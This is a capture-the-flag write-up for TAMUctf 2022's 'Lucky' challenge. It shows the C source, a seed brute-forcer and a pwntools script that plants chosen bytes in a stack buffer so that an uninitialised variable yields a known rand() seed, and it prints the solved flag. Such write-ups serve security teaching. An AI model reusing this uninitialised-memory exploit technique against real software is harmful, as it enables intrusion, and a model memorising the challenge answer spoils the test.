 # Lucky challenge writeup
Lucky was a pwn challenge from the tamuctf 2022. It was a special challenge for me as it didn't involve trivial bugs like stack buffer overflows, format string bugs...etc. 
We were given a binary and its source code which is the following:
```c
#include <stdio.h>
#include <stdlib.h>

void welcome() {
    char buf[16];
    printf("Enter your name: ");
    fgets(buf, sizeof(buf), stdin);
    printf("\nWelcome, %s\nIf you're super lucky, you might get a flag! ", buf);
}

int seed() {
    char msg[] = "GLHF :D";
    printf("%s\n", msg);
    int lol;
    return lol;
}

void win() {
    char flag[64] = {0};
    FILE* f = fopen("flag.txt", "r");
    fread(flag, 1, sizeof(flag), f);
    printf("Nice work! Here's the flag: %s\n", flag);
}

int main() {
    setvbuf(stdout, NULL, _IONBF, 0);
    welcome();
    srand(seed());

    int key0 = rand() == 306291429;
    int key1 = rand() == 442612432;
    int key2 = rand() == 110107425;

    printf("Key0: %d | key1: %d | key2: %d", key0, key1, key2);
    if (key0 && key1 && key2) {
        win();
    } else {
        printf("Looks like you weren't lucky enough. Better luck next time!\n");
    }
}
```
It basically asks  for an input then initializes the random with a seed (i'll come back to it later) and then compares the values of `key0`, `key1`, `key2`
respectively with `306291429 , 442612432, 110107425`. If all the checks are `true` it prints for us the flag. </br>
After reading source code again and again i was like `this is impossible to solve` since i don't know the seed that generates this sequence `306291429, 442612432, 110107425`.</br>
I opened the binary in gdb, gave it `AAAA` as input and made a breakpoint before the `seed` function exists to try to know how the seed is generated. 
The return value was stored in `eax` so i inspected it with `i r eax` and it was `0x7fff` </br>
![0x7fff](./images/lucky1.png)

At this point i was desperate and about to give up on the challenge. Because i thought that i don't have a control on the `seed` value and since `ASLR` is enabled on the remote system bruteforcing is just impossible. </br>
I opened the binary in gdb again and gave it `"A" * 16` as input this time, made break point in the same place inspected the seed and....boooom!
![0x41414141](./images/lucky2.png)

the seed is equal to `0x414141` which is the hexadecimal representation of `AAA` .</br>
At this point the solution was clear i just need to find the seed which generates that sequence of random numbers and its done. </br>
I got the seed with this:
```c
#include <stdio.h>
#include <stdlib.h>
#include <time.h>

int main(int argc, char *argv[]) {

    unsigned int seq[] = {306291429, 442612432, 110107425};

    for (int i = 0; i < 4294967295; i++) {

        srand(i);
        for (int j = 0; j < 3; j++) {

            if (rand() != seq[j])
                break;

            if (j == 2){
                printf("found seed: %d\n", i);
                printf("Next number: %d\n", rand());
                exit(0);
            }
        }
    }
    return 0;
}
```
After compiling and running it i got this:</br>
![seed](./images/lucky3.png) </br>
Now we have the seed everything is ready to get our flag. I made a small python script to send the seed to the remote server which is:
```python
from pwn import *

context.arch="x86_64"

def conn():
    if args.LOCAL:
        p = process("./lucky")
        return p 
    elif args.REMOTE:
        p = remote("tamuctf.com", 443, ssl=True, sni="lucky")
        return p 
    else:
        exit(0)
        
def main():
    global p 
    p = conn()
    seed = 5649426
    #b"4V\x12" is the hexadecimal representation of the seed 
    payload = b"A" * (15 - len(b"4V\x12"))
    payload += b"\x124V"
    p.sendlineafter("name: ", payload)
    p.recvline()
    p.recvline()
    p.recvline()
    flag = p.recvline()
    log.info(f"flag: {flag}")
if __name__ == "__main__":
    main()
```
after running it we get the flag:
![flag](./images/lucky4.png)
flag: `gigem{un1n1t14l1z3d_m3m0ry_15_r4nd0m_r1ght}`
